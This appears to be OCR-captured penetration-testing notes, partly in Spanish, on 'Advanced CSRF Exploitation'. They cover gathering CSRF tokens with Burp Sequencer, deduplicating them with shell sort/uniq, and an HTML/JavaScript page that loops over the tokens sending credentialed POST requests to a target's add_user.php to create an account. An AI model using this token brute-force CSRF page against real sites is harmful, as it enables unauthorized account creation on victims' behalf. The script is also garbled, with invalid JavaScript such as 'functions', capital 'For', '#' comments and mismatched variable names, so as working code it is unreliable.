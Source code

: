 Get token in browser

* document.getElementById('CSRFToken').value

### Advanced CSRF Exploitation - parte 2

* Envía la página sicútero en BURP a Sequencer
* Haz la prueba en vivo.
* Guarda las fichas.

in CMD:

```bash
sort <token file> // get rid of duplicates
sort <token file> | uniq -c //show the most common tokens
sort <token file> | uniq -c | nl 
sort <token file> | uniq > valid_tokens

cd /var/www
nano brutePOST.html
```

```js
<html>
<body>
  <textarea id="tokens" row="12" columns="60">
    <copy the valid tokens here>
  </textarea>

<script>
function XHRPost(tVal){
  var http = new XMLHttpRequest();
  var url = "target.site/add_user.php";
  var token = tVal;
  var params = "POST data from BURP" //edit the token in the data with the 'token' variable
  http.open("POST", url, true);
  http.withCredentials = "true";
  http.setRequestHeader("Content-Type", "content type from BURP");
  http.onreadystatechange = function(){
    if(http.readyState> 1){
      //For the SoP we dont care about response
      http.abort();

  }
  # Serialize the param object
  queryParams = Object.keys(params).reduce(functions(a,k){
    a.push(k + '=' + encodeURIComponent(params[k]));
    return a
    
  }, []).join('&');
  http.send(queryParams);
}
function bruteLoop(TList){
  For (var i=0; i<TList.length; i++){
    XHRPost(Tlist[i]);
  }
}


// Prepare the token list
var tokens = document.getElementById('tokens').value.replace(/\s+/gm, '\n').split('\n');
tokens = tokens.filter(Boolean); # remove empty values

bruteLoop (tokens);

</script>
```